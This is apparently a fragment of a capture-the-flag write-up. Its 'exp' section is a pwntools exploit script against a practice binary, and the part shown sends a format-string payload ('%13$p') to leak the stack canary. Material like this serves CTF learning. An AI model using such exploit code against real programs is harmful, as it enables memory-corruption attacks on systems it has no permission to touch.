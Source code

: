 [![](assets/1706146504-0ae0658f7f9fa1a8d16594b2d7106d32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233901-33417540-b873-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'
#p=remote('node4.buuoj.cn',26967)
p=process('./pwn')
elf = ELF('./pwn')
def duan():
    gdb.attach(p)
    pause()

sl('%13$p')
canary=int(r(18),16)
```